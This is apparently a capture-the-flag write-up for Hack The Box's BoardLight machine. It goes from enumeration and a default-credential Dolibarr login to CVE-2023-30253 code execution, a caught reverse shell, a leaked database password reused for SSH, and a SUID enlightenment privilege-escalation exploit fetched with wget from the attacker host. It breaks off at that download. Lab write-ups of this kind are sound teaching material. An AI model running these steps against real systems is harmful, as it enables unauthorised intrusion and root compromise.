# BoardLight - Easy

Target IP: **10.129.62.128**

## User Flag

Initial scan: ```sudo nmap --open 10.129.62.128 -vvv```

Output shows standard port 22 and 80 for ssh and http.

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-12 14:18 EDT
Initiating Ping Scan at 14:18
Scanning 10.129.62.128 [4 ports]
Completed Ping Scan at 14:18, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:18
Completed Parallel DNS resolution of 1 host. at 14:18, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 14:18
Scanning 10.129.62.128 [1000 ports]
Discovered open port 22/tcp on 10.129.62.128
Discovered open port 80/tcp on 10.129.62.128
Completed SYN Stealth Scan at 14:18, 0.18s elapsed (1000 total ports)
Nmap scan report for 10.129.62.128
Host is up, received reset ttl 63 (0.0094s latency).
Scanned at 2026-09-12 14:18:21 EDT for 0s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.048KB)
```

Service and connect scan: ```sudo nmap -sC -sV 10.129.62.128 -v```

Website is being hosted by Apache 2.4.41.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's navigate to it. We are greeted with this home page.



Pressing through each of the options on the top bar, each one of them leads us to their respective ```.php``` files: ```index.php```, ```about.php```, ```do.php```, and ```contact.php```.

```contact.php``` seems the most interesting, we can send a dummy request and capture it on Burp Suite. Additionally, there is a box that we can enter an email to subscribe to a newsletter, which is also interesting.




Let's analyze the request that is sent when we submit the contact form.

It's not a POST request, which is unexpected. It sends a GET request to the same ```contact.php``` file with an empty query string?



The forms don't seem to be doing anything, so let's look elsewhere. Also, let's add ```board.htb``` to our ```/etc/hosts``` file.

Directory enumeration: ```ffuf -w directory-list-2.3-medium.txt:FUZZ -u http://board.htb/FUZZ -ic -t 10```

We get some interesting results like ```/images``` and ```server-status```, but navigating to them just gives us the HTTP 403 Forbidden status code.

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 7ms]
                        [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 12ms]
css                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 7ms]
js                      [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 7ms]
                        [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 9ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 7ms]
:: Progress: [220547/220547] :: Job [1/1] :: 1388 req/sec :: Duration: [0:02:53] :: Errors: 0 ::
```

Let's try enumerating for vhosts: ```ffuf -w subdomains-top1million-20000.txt -u http://board.htb/ -H "Host: FUZZ.board.htb" -ac -ic -t 10```

We get a single hit on ```crm```.

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 639ms]
:: Progress: [19964/19964] :: Job [1/1] :: 431 req/sec :: Duration: [0:00:44] :: Errors: 0 ::
```

Let's add ```crm.board.htb``` to our ```/etc/hosts``` file and navigate to it.

I think this is what we're looking for. The vhost is running Dolibarr 17.0.0, and presents a login form. I was unfamiliar with the term "crm," so I looked it up. CRM stands for "Customer Relationship Management," a digital tool that centralizes and manages a company's interactions with current and potential customers. If we can get access, we should see some valuable information.



The logical step here would be to do some research on Dolibarr 17.0.0. Let's see if we can get a freebie with default credentials. This gives us ```admin:admin``` or ```admin:changeme```. Let's try to log in with these credentials.

We're in! However, there is a weird error message saying that we are restricted from viewing our own home screen?



Digging around the application's functionalities, what seems the most interesting is that we have the ability to create websites. If we can create a new vhost and upload some php shell code after, navigating to it could give us access.



Let's try to make a website and see what happens. The vhost will be ```hi.board.htb```.



After importing one of the default html templates, we are presented with our new website.



Out of curiosity, I added our new vhost to the local ```/etc/hosts``` file and navigated to it. It finds the vhost but still displays the original BoardLight home page.



Looking at the ```crm``` instance with out website preview loaded, it seems like we have the option to edit the properties of a page. For example, if we edit the ```index.php``` of our new page to contain php shell code, this might allow us to get access. We might not even need to navigate to the actual website since the web application displays a website preview for us, we might get a connection back if the php code is executed.

Let's try it.



Saving the change, we get this error saying that the reverse shell code holds dynamic PHP code that is forbidden by default. It tells us to see a hidden option called WEBSITE_PHP_ALLOW_xxx to increase the list of allowed commands.


I can feel myself getting into a rabbit hole, so let's pivot. Looking for public vulnerabilities for Dolibarr 17.0.0, I found CVE-2023-30253, an authenticated RCE vulnerability.

Apparently, we can inject php code by simply typing “<?PHP code…?>” instead of “<?php code..?>”. That's curious. I did find a PoC, but I want to try manually exploiting this. Our previous reverse shell code showed an error, but we might be able to bypass it using this strategy.

Our cheeky edit has been added.



Let's start up a netcat listener and save the change, praying that it works.

The original attempt gave the same error, but I suspected that it was because we were directly deleting the original code of the page. After adding the reverse shell code without modifying the original page and saving the change, we catch a shell as the ```www-data``` user.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-t6zvwywg3g]─[/usr/share/seclists/Discovery/DNS]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.62.128 45080
Linux boardlight 5.15.0-107-generic #117~20.04.1-Ubuntu SMP Tue Apr 30 10:35:57 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 12:31:43 up  2:19,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

The ```www-data``` lacks permissions to view our user home folder, so we will need to escalate privileges.

```
$ cd home
$ ls
larissa
$ cd larissa
/bin/sh: 5: cd: can't cd to larissa
```

We are also lacking privileges to view ```/var/log/apache2```.

```
$ cd apache2
/bin/sh: 18: cd: can't cd to apache2
```

While browsing the filesystem, I came across an interesting ```conf.php``` file located in ```/var/www/html/crm.board.htb/htdocs/conf```. We have a set of credentials for a mysql database running on port 3306? 

```
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
```

Let's pray for credential reuse and try logging in as the ```larissa``` user through ssh.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-t6zvwywg3g]─[~]
└──╼ [★]$ ssh larissa@10.129.62.161
The authenticity of host '10.129.62.161 (10.129.62.161)' can't be established.
ED25519 key fingerprint is SHA256:xngtcDPqg6MrK72I6lSp/cKgP2kwzG6rx2rlahvu/v0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.62.161' (ED25519) to the list of known hosts.
larissa@10.129.62.161's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

larissa@boardlight:~$ 
```

We're in! We can proceed to get the user flag from here.

## Root Flag

Let's look for privesc vectors.

Output of ```sudo -l``` reveals to us that the ```larissa``` user cannot run sudo. Searching for binaries with SUID bit set doesn't give back any interesting results.

Something makes me think that we need to utilize the special ```adm``` group membership of the ```larissa``` user to our advantage. We can read a bunch of logs in ```/var/log``` with these permissions.

We see something very interesting in ```/var/log/auth.log```. There seems to be a cron job starting a process as ```root```, seemingly every 3 minutes. 

```
larissa@boardlight:/var/log$ cat auth.log
Sep 12 13:08:40 localhost sshd[866]: Server listening on 0.0.0.0 port 22.
Sep 12 13:09:01 localhost CRON[1102]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:09:01 localhost CRON[1101]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:09:01 localhost CRON[1101]: pam_unix(cron:session): session closed for user root
Sep 12 13:09:02 localhost CRON[1102]: pam_unix(cron:session): session closed for user root
Sep 12 13:09:15 localhost VGAuth[622]: vmtoolsd: Username and password successfully validated for 'root'.
Sep 12 13:09:20 localhost VGAuth[622]: message repeated 27 times: [ vmtoolsd: Username and password successfully validated for 'root'.]
Sep 12 13:12:01 localhost CRON[1137]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:12:01 localhost CRON[1137]: pam_unix(cron:session): session closed for user root
Sep 12 13:15:01 localhost CRON[1264]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:15:01 localhost CRON[1264]: pam_unix(cron:session): session closed for user root
Sep 12 13:17:01 localhost CRON[1277]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:17:01 localhost CRON[1277]: pam_unix(cron:session): session closed for user root
Sep 12 13:18:01 localhost CRON[1285]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:18:01 localhost CRON[1285]: pam_unix(cron:session): session closed for user root
Sep 12 13:21:01 localhost CRON[1316]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:21:01 localhost CRON[1316]: pam_unix(cron:session): session closed for user root
Sep 12 13:24:01 localhost CRON[1336]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:24:01 localhost CRON[1336]: pam_unix(cron:session): session closed for user root
Sep 12 13:27:01 localhost CRON[2229]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:27:01 localhost CRON[2229]: pam_unix(cron:session): session closed for user root
Sep 12 13:30:01 localhost CRON[3405]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:30:01 localhost CRON[3404]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:30:01 localhost CRON[3404]: pam_unix(cron:session): session closed for user root
Sep 12 13:30:01 localhost CRON[3405]: pam_unix(cron:session): session closed for user root
Sep 12 13:33:01 localhost CRON[11797]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:33:01 localhost CRON[11797]: pam_unix(cron:session): session closed for user root
Sep 12 13:36:01 localhost CRON[11814]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:36:01 localhost CRON[11814]: pam_unix(cron:session): session closed for user root
Sep 12 13:39:01 localhost CRON[11838]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:39:01 localhost CRON[11839]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:39:01 localhost CRON[11838]: pam_unix(cron:session): session closed for user root
Sep 12 13:39:01 localhost CRON[11839]: pam_unix(cron:session): session closed for user root
Sep 12 13:41:16 localhost sshd[11930]: Accepted password for larissa from 10.10.15.194 port 52340 ssh2
Sep 12 13:41:16 localhost sshd[11930]: pam_unix(sshd:session): session opened for user larissa by (uid=0)
Sep 12 13:42:01 localhost CRON[11977]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:42:01 localhost CRON[11977]: pam_unix(cron:session): session closed for user root
Sep 12 13:42:41 localhost sudo: pam_unix(sudo:auth): authentication failure; logname=larissa uid=1000 euid=0 tty=/dev/pts/0 ruser=larissa rhost=  user=larissa
Sep 12 13:43:09 localhost sudo:  larissa : command not allowed ; TTY=pts/0 ; PWD=/home/larissa ; USER=root ; COMMAND=list
Sep 12 13:45:01 localhost CRON[11989]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:45:01 localhost CRON[11989]: pam_unix(cron:session): session closed for user root
Sep 12 13:48:01 localhost CRON[12015]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 12 13:48:01 localhost CRON[12015]: pam_unix(cron:session): session closed for user root
```

In ```/var/log/syslog```, we get a better idea of what the cron job is doing. It seems to be running the ```/usr/bin/mysql``` binary, passing in a SQL instruction.

```
Sep 12 13:42:01 localhost CRON[11978]: (root) CMD (/usr/bin/mysql -D dolibarr -e "DELETE FROM llx_website_page; DELETE FROM llx_website;")
Sep 12 13:45:01 localhost CRON[11990]: (root) CMD (/usr/bin/mysql -D dolibarr -e "DELETE FROM llx_website_page; DELETE FROM llx_website;")
Sep 12 13:48:01 localhost CRON[12016]: (root) CMD (/usr/bin/mysql -D dolibarr -e "DELETE FROM llx_website_page; DELETE FROM llx_website;")
```

Let's check out the system-wide crontab.

```
larissa@boardlight:/etc$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

In ```/etc/cron.d/anacron```, we see this.

```
larissa@boardlight:/etc/cron.d$ cat anacron
# /etc/cron.d/anacron: crontab entries for the anacron package

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

30 7-23 * * *   root	[ -x /etc/init.d/anacron ] && if [ ! -d /run/systemd/system ]; then /usr/sbin/invoke-rc.d anacron start >/dev/null; fi
```

I have a feeling we are not looking in the right place. I know there is a cron job running the mysql binary, but it is not writable to us, nor can we read the cron jobs for the ```root``` user.

Let's take a step back. Checking the SUID bit binaries again, there is an interesting binary that I have never seen before. The ```enlightenment``` binaries seem interest. Let's look them up.

Apparently, the ```enlightment_sys``` binary is vulnerable to CVE-2022-37706, a local privilege escalation flaw due to the binary being SUID root.

I found a [PoC](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) here, lets download, transfer, and run it.

```
larissa@boardlight:~$ wget http://10.10.15.194:8000/exploit.sh
--2026-09-12 14:37:07--  http://10.10.15.194:8000/exploit.sh
